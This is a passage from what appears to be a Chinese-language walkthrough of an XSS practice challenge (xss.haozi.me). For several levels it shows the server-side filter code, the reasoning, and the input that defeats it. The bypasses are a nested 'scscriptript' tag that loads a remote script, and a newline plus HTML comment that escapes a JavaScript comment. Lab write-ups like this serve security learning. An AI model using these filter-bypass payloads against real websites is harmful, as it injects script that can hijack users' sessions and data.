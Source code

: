 ```
同上题的基础上过滤了script标签，忽略大小写且替换为空；
由于只过滤一次，可以直接在script中插入script绕过；
当然也可以采用html实体编码绕过；
```

input code:

```
<scscriptript src="https://xss.haozi.me/j.js"></scscriptript>
```

html:

```
<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
```

## 0x0D

server code:

```
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
```

Analysis:

```
正则匹配</"'号，且替换为空，同时输入点在//注释后；
由于输入点在script标签内，完全可以直接alert，使用换行绕过//注释行，弹窗后换行再行注释')；
由于过滤了/，即//和/**/的js注释失效，可以使用html注释-->闭合绕过；
```

input code:

```

alert(1);
-->
```

html:

```
<script>
          // alert('
alert(1);
-->')
    </script>
```
